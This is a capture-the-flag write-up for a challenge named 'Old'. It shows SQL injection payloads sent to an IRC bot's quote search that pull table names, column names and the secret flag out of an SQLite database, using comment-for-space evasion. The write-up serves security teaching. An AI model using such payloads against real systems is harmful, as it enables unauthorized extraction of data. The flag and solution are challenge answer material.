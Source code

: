 # Old
> When the art of quoting is being dominated, the old secrets are brought to the light.

## About the Challenge
There is a bot called `BotServ` which has many functions, such as being able to search for quotes, being able to display quotes, etc.

![preview](images/preview.png)

## How to Solve?
There is a search feature in the `BotServ` bot where this function is vulnerable to SQL injection on SQLite database. Here is the query I used to extract the table name, the column, and also the data

Extract table name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/group_concat(tbl_name)/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/and/**/tbl_name/**/NOT/**/like/**/'sqlite_%'/**/limit/**/1/**/offset/**/1--
```

![table](images/table.png)

Extract column name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/GROUP_CONCAT(name)/**/AS/**/column_names/**/FROM/**/pragma_table_info('old_secrets')/**/LIMIT/**/1/**/OFFSET/**/1--
```

![column](images/column.png)

Extract data
```
/msg BotServ QUOTES SEARCH ')/**/union/**/select/**/secret/**/from/**/old_secrets/**/limit/**/1/**/offset/**/5--
```

The flag was found in the `secret` column inside the `old_secrets` table

![flag](images/flag.png)

```
EKO{s3cr3tzzzzz}
```